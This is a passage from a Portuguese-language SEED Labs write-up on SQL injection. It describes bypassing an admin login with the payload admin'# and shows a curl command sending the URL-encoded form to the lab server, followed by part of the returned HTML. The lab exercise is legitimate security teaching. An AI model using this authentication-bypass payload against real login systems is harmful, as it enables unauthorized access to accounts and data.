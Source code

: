 Com os carateres especiais `'` e `#` é possível alterar o significado da _query_, isto é, fazer uma autenticação como administrador utilizando o nome da conta (`admin`) que era conhecido, mas não conhecendo a password. Pode ser escrita qualquer string no campo `Password` ou até mesmo nada neste caso, tal como mostra o _screenshot_ acima. Como era esperado o acesso aos dados de todos os empregados foi garantido:

![](./screenshots/userdetails.png)

### Task 2.2: SQL Injection Attack from command line

Semelhante à tarefa anterior, mas a partir da command line. Tendo em conta o exemplo fornecido e como `'` e `#` são carateres especiais, estes precisam de ser codificados. Então, usou-se o %27 e o %23, respetivamente.

```sh
[11/21/22]seed@VM:~/.../Labsetup$ curl 'www.seed-server.com/unsafe_home.php?username=admin%27%23&Password='
<!--
SEED Lab: SQL Injection Education Web plateform
Author: Kailiang Ying
Email: kying@syr.edu
-->

<!--
SEED Lab: SQL Injection Education Web plateform
Enhancement Version 1
Date: 12th April 2018
Developer: Kuber Kohli

Update: Implemented the new bootsrap design. Implemented a new Navbar at the top with two menu options for Home and edit profile, with a button to
logout. The profile details fetched will be displayed using the table class of bootstrap with a dark table head theme.

NOTE: please note that the navbar items should appear only for users and the page with error login message should not have any of these items at
all. Therefore the navbar tag starts before the php tag but it end within the php script adding items as required.
-->

<!DOCTYPE html>
<html lang="en">
```